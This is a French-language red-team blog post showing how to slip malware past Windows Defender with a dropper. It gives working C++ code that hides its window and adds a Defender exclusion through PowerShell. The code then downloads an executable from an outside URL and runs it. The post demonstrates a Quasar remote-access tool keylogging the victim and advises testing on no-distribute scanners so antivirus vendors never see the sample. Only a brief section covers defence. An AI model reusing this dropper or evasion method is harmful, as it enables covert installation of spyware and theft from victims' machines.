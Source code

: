 ```yaml
---
published: true
layout: post
title: "Evasion de Windows Defender grâce à un injecteur (dropper)"
description: "Cet article décrit comment rendre indétectable n'importe quel malware auprès de Windows Defender."
lang: fr_FR
category: redteam,malware,raccourci,dropper,injecteur,evasion
---
```

![Evasion de Windows Defender grâce à un injecteur (dropper)](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/illustration.PNG)

# Evasion de Windows Defender grâce à un injecteur (dropper)
Un injecteur (ou *dropper*, en anglais), est un programme créé pour installer un logiciel malveillant sur un système cible.
Il s'agit d'une forme minimaliste de cheval de Troie. Le code du logiciel malveillant est soit inclus à même l'injecteur, soit téléchargé sur la machine à partir d'Internet une fois activé.

## Principe d'exploitation
PowerShell dispose d'une méthode [Add-MpPreference](https://docs.microsoft.com/en-us/powershell/module/defender/add-mppreference?view=win10-ps) qui permet d'intéragir directement avec Windows Defender.
Cette commande permet d'ajouter des exclusions sur les dossiers, fichiers, extensions.
C'est utile pour administrer un poste client par exemple mais peut être détournée de son utilité native.
L'idée est donc tout simplement d'ajouter une exception sur le malware. Le prérequis est d'avoir les droits d'exécuter un programme en tant qu'administrateur de la part de la victime.
Il sera alors possible d'exécuter et d'évader n'importe quel type de malware, quelque soit sont taux de détection original.

Pour l'exemple, j'utiliserai l'outil d'administration à distance (*Remote Administration Tool* ou *RAT*) [Quasar](https://github.com/quasar/Quasar) qui est libre et open source.

Le taux de détection original est le suivant :

[![Taux de détection du malware Quasar](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/scan_malware.PNG)](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/scan_malware.PNG)

Attention, lors de la création d'un malware ou injecteur (*dropper*), il **ne doit jamais** être scanné sur les plateformes telles que [VirusTotal](https://www.virustotal.com/gui/) car les échantillons sont distribués aux **éditeurs antivirus**.
Les plateformes dites sans distribution (*no distribute*) telles que [AntiScanMe](https://antiscan.me/) sont à privilégier. Il serait bête de griller votre cartouche avant même de commencer votre audit Red Team :)

## Création du dropper en C++
L'étape suivante est la création de l'injecteur. J'ai choisi le language C++ mais il peut être fait au format .bat, .ps1 ou tout autre langage tant que PowerShell est exécuté.
Le code ne tient qu'en quatre étapes :
1. Masquer la fenêtre
2. Ajouter l'exclusion via PowerShell avec la commande `Add-MpPreference` et le paramètre `-ExclusionPath`
3. Télécharger le malware à l'endroit où a été ajoutée l'exclusion
4. Exécuter le malware téléchargé

Voici le code source de l'application :
```cpp
#include <iostream>
#include <Windows.h>

int main()
{
    ::ShowWindow(::GetConsoleWindow(), SW_HIDE);
    system("powershell.exe -Command Add-MpPreference -ExclusionPath %appdata%\\malware.exe -Force");
    system("powershell.exe -Command Invoke-WebRequest -Uri https://github.com/CLeBeRFR/a/raw/main/malware.exe -OutFile %appdata%\\malware.exe");
    system("powershell.exe -Command Invoke-Item %appdata%\\malware.exe");
}
```
Le fichier manifest doit aussi être modifié via les paramètres du projet afin demander l'exécution de l'application en tant qu'administrateur.

Le taux de détection de l'injecteur est le suivant :

[![Taux de détection de l'injecteur (dropper)](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/scan_dropper.PNG)](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/scan_dropper.PNG)

La non détection de l'injecteur par Windows Defender est le seul élément qui est vraiment intéressant car l'injecteur sert uniquement à évader ce dernier.

Une fois l'injecteur envoyé à la victime, l'exclusion est correctement ajoutée et le malware pourtant initialement détecté par Windows Defender est exécuté. La victime apparaît alors du côté de l'attaquant :

[![Taux de détection de l'injecteur (dropper)](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/Quasar.PNG)](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/Quasar.PNG)

L'attaquant dispose alors de toutes les fonctionnalités du malware installé. Dans le cas présent, il est possible d'avoir un enregistreur de frappes (*keylogger*) :

[![Enregistreur de frappes (keylogger)](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/keylogger.PNG)](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/keylogger.PNG)

Il est également possible d'envoyer des messages à la victime :

[![Message box Quasar](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/message_box.PNG)](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/message_box.PNG)

D'autres fonctionnalités sont disponibles et dépendent du logiciel malveillant installé, un ransomware aurait également pu être installé...

Si la vicitme se rend dans les paramètres, elle pourra voir l'exclusion ajoutée par l'injecteur :

[![Exclusion Windows Defender ajoutée par l'injecteur](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/exclusion.PNG)](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/exclusion.PNG)

## Comment s'en protéger
Etant donné que cette technique nécessite les droits d'administration de la part de la victime, il convient de limiter au maximum la liste des comptes ayant le droit d'exécuter des programmes en tant qu'administrateur.
Fort heureusement, les postes clients des collaborateurs de grandes entreprises n'ont généralement pas une telle permission.

Par ailleurs, je pense que cette méthode est transposable aux différents anti virus en éditant les valeurs du registre ou la configuration des fichiers contenants les exclusions. La non utilisation de Windows Defender n'est donc pas un moyen de rémédiation.